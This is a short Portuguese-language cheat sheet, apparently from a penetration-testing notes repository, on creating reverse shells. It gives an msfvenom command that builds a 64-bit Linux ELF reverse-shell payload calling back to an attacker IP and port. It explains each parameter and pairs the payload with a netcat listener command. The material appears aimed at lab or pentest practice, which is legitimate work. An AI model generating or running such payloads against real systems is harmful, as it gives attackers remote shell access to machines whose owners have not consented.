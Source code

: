 # Reverse Shells

Este arquivo contém comandos úteis para criação e configuração de reverse shells em diferentes plataformas e linguagens.

## Linux Reverse Shell - ELF Payload

O comando abaixo usa `msfvenom` para gerar um payload de reverse shell no formato ELF, específico para sistemas Linux de 64 bits:

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.118.11 LPORT=4444 -f elf -o shell
```

### Descrição dos Parâmetros

- `-p linux/x64/shell_reverse_tcp`: Define o payload como uma shell reversa para Linux 64 bits.
- `LHOST=192.168.118.11`: Define o IP do atacante para onde o shell reverso irá se conectar.
- `LPORT=4444`: Define a porta no IP do atacante para a conexão reversa.
- `-f elf`: Especifica o formato de saída do arquivo como ELF, compatível com sistemas Linux.
- `-o shell`: Nomeia o arquivo gerado como `shell`.

**Nota**: Esse payload deve ser configurado em conjunto com um listener no IP e porta especificados (como `nc -lvp 4444`) para capturar a conexão reversa.
